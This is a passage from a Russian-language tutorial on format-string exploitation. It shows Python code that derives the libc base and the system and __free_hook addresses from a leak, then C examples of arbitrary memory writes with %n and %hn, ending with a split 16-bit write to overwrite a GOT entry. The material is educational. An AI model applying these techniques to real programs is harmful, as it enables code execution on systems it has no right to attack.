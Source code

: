 ```python

# 4. Считаем базу
libc_base = leak - puts_off
print(f"[+] libc_base = {hex(libc_base)}")

# 5. Вычисляем нужные адреса
system_addr = libc_base + libc.symbols['system']
free_hook   = libc_base + libc.symbols['__free_hook']
print(f"[+] system   = {hex(system_addr)}")
print(f"[+] free_hook= {hex(free_hook)}")

p.close()
```

Таким образом, методика **Leak** → **Calc Base** → Далее **exploit‑chain** лежит в основе большинства форматных атак.


## 4. Произвольная запись через %n, %hn: дробление 64 бит

### 4.1 Запись единственного числа

```c
int tgt=0;
printf("ABCD%n", &tgt);
// 'ABCD' = 4 байта, теперь tgt==4
```

В этом примере спецификатор `%n` записывает в переменную `tgt` количество уже выведенных байт. Каждая буква в строке "ABCD" учитывается автоматически, и после выполнения `printf` значение `tgt` становится равным четырём. Такой приём позволяет быстро и просто записывать в память небольшие числа, но при необходимости записи больших значений одного `%n` уже недостаточно.

### 4.2 Контроль вывода для нужного value

Для записи 1000 байт:

```c
printf("%1000x%7$n", &tgt);
```

Здесь используется ширина поля вывода: `%1000x` сначала выводит переданное число (или ноль) в шестнадцатеричном виде, дополняя слева пробелами до общей длины в тысячу символов. По завершении этого фрагмента счётчик выведённых байт достигает ровно 1000, и спецификатор `%7$n` берёт указатель, переданный седьмым аргументом, и записывает туда текущее значение счётчика. Таким образом, управление шириной позволяет задать любое нужное значение для последующей записи.

### 4.3 Дробление и order of operations

Чтобы записать 64 бит адрес, используют два указателя и `%hn`:

```c
addr_low = system_addr & 0xffff
addr_hi = (system_addr >> 16) & 0xffff
printf("%{low}x%7$hn%{delta}x%8$hn", &got, &got+2)
```

